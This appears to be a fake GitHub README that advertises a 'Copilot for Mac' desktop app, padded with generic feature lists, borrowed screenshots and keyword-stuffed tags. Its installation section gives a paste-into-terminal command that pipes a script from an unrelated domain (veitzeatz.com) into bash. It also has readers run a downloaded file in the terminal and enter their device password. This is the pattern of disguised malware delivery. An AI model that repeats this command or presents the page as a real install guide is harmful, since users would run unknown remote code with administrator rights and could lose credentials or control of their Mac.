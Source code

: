 # Copilot — Download For Mac OS 🤖

Copilot for Mac is your intelligent AI assistant designed to streamline your workflow, enhance productivity, and supercharge your coding, writing, and data analysis. Download and install this desktop powerhouse to bring Copilot’s features straight to your macOS environment. ✨

![copilot](https://i.ytimg.com/vi/e4yVVPK2Eio/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLDq1yL7XVFu7UfHHC-jseQfFtUHFw)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](#)

If the button above doesn't work, follow the terminal instructions below to install manually.

---

## 📦 How to Install Copilot For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Copilot For Mac

* 💬 **AI-Powered Assistance** — Get real-time help with writing, coding, or tasks.
* 💻 **Code Generation** — Autocomplete and suggest code across languages.
* 📋 **Smart Summaries** — Turn long emails, notes, or documents into summaries.
* 📈 **Workflow Automation** — Automate repetitive tasks effortlessly.
* 🧠 **Context-Aware Help** — Understands your projects and provides intelligent insights.
* 🧩 **App Integration** — Works with IDEs, terminals, and productivity tools.

---

## About Copilot

Copilot for Mac is a next-generation productivity and AI assistant application built for creatives, developers, analysts, and everyday users. With advanced AI at its core, Copilot transforms the way you work, write, code, and think — directly from your Mac.

Whether you're working on large software projects or simply drafting emails, Copilot adapts to your workflow and understands your context to provide smart, in-line suggestions. It’s designed to reduce friction and increase output by combining natural language understanding with real-time processing.

One of Copilot's strongest features is its multi-environment support. From IDEs like VSCode and JetBrains to apps like Notion and Slack, Copilot integrates directly to offer seamless AI assistance. With command-line capabilities, Copilot even helps automate tasks right from the terminal.

In terms of security, Copilot operates within encrypted environments and adheres to strict privacy protocols. The macOS version brings powerful local performance, keyboard shortcuts, and offline-first functionality for an uninterrupted productivity experience.

---

## ✅ Copilot App Benefits

* 🧠 Adaptive AI that learns from your workflow
* 🔌 Plugin and tool integration support
* ⚙️ Powerful for code, text, and automation
* 🛡 Secure, private, and local-first by design
* 🖥 Designed natively for macOS
* ⚡️ Instant access through global shortcuts

---

## 🖼 Preview

![Copilot Interface](https://www.spacebar.news/content/images/image/fetch/f_auto,q_auto:good,fl_progressive:steep/https-3a-2f-2fsubstack-post-media.s3.amazonaws.com-2fpublic-2fimages-2f8b6ed328-b248-404f-9349-e051c1accdcd_2384x1654.png)
*Smart suggestions panel inside a text editor*

![Copilot Code](https://i.postimg.cc/BnZbDZbw/copilot-2.png)
*Live code generation for Python and JavaScript*

![Copilot Chat](https://i.postimg.cc/PfLYsQgj/copilot-3.png)
*AI assistant answering technical and non-technical queries*

![Copilot Settings](https://i.postimg.cc/mZKYHgZd/copilot-4.png)
*Customizable settings for personal and work profiles*

---

## 🔍 Tags

copilot, copilot ai, co_pilot, copilot download, copoliet, microsoft copilot, github copilot, copilot microsoft, git hub pilot, github copilots, copilot app, copilot mac download, ai assistant for mac, copilot ai for developers, download copilot free, productivity ai mac, copilot desktop macos, coding ai for mac, copilot chat mac app, copilot for vscode mac, copilot install mac
